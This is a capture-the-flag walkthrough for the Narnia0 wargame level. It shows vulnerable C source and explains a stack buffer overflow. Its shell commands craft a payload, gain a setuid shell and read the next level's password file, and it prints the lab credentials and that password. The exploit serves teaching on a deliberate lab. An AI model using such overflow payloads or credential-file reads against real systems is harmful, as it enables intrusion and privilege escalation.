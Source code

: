 # Narnia0

- Username: narnia0
- Password: narnia0

Source code:

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

Interesting, this binary expects you to overwrite the memory segment of val. So
what's going on? When you start the program it ask for some input. The input is
stored in an array of 20 characters. If you input up to 19 characters (the '\n'
counts as one), nothing happens:

```shell
narnia0@narnia:~$ /narnia/narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: 1234567890123456789 
buf: 1234567890123456789
val: 0x41414141
WAY OFF!!!!
```

But if use a longer input, something happens:

```shell
narnia0@narnia:~$ /narnia/narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: 12345678901234567890
buf: 12345678901234567890
val: 0x41414100
WAY OFF!!!!
```

The value of `val` starts changing. This is because you are overflowing the
buffer and the memory you are tampering with happens to be the one assigned to
`val`. The value changes as you input more characters, but you cannot input
indefinetely long strings, because the scanf() call reads up to 24 characters.
So our input is going to be 19 characters that will act as padding and 5 extra
characters that will be our payload.

Trying some padding chars we rapidly see that the first char "pushes" a null
byte (the terminating byte of our input) and then the hexadecimal values of the
other chars ... but in reverse order. Using a tool like `xxd` we can craft the
desired 0xdeadbeef. By the way, you can send input through a pipe:

```shell
narnia0@narnia:~$ echo "12345678901234567890$(echo efbeadde|xxd -r -p)"|/narnia/narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 12345678901234567890ﾭ�
val: 0xdeadbeef
```

The program now does accept the input, but we still don't have access to the
shell, because by using the pipe we redirected the descriptors. And we cannot
use input 0xdeadbeef with a keyboard. At least not with mine!

We can actually keep sending input. If we use a group of commands and send it
through the pipe. If the last command is `cat`, the file descriptors of `stdin`
and `stdout` are kept open and we can interact with the shell:

```shell
narnia0@narnia:~$ (echo -e "12345678901234567890$(echo efbeadde|xxd -r -p)";cat)|/narnia/narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 12345678901234567890ﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```

Not bad for a first challenge!
